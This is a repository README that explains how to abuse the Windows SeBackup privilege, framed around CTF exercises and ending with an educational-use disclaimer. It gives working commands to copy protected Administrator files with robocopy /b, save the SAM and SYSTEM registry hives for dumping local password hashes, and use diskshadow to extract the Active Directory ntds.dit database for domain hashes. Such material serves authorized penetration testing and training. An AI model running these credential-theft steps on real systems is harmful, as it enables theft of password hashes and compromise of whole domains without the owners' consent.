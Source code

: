 # SeBackup-Privilege Abuse

This repository contains a script and instructions to demonstrate the abuse of the SeBackup privilege in Windows environments. The SeBackup privilege allows a user to bypass file permissions and copy files, which can be leveraged to retrieve sensitive information.

## Description

The provided script demonstrates how to:

1. Retrieve files from the Administrator's Desktop (directly get the root flag for CTF's).
2. Copying SAM and SYSTEM files for dumping local hashes.
3. Generating the ntds.dit file, which contains the Active Directory database, for dumping domain hashes.

## Usage
### Prerequisites
SeBackupPrivilege enabled for the user executing the script.

## Steps
### ---> Retrieve files from the Administrator's Desktop (directly get the root flag for CTF's)

Use the robocopy command with the /b switch to bypass file permissions and copy files from the Administrator's Desktop.

`robocopy /b C:\Users\Administrator\Desktop\ C:\`

### ---> Copying SAM and SYSTEM files for dumping local hashes
Use the reg command to save the SAM and SYSTEM file in PWD.

`reg save hklm\sam sam` <br />
`reg save hklm\system system`

### ---> Generating the ntds.dit file, which contains the Active Directory database, for dumping domain hashes

Download and move the `script.txt` file on the Windows machine:

Execute the Diskshadow utility with the prepared script and Use robocopy again to copy the ntds.dit file to PWD:

`diskshadow /s script.txt` <br />
`robocopy /b E:\Windows\ntds . ntds.dit`

## Disclaimer

This script is provided for educational purposes only. Unauthorized access to computer systems is illegal and unethical. Use this script only on systems you own or have explicit permission to test.

## Contributing

If you have any improvements or suggestions, feel free to submit a pull request or open an issue.

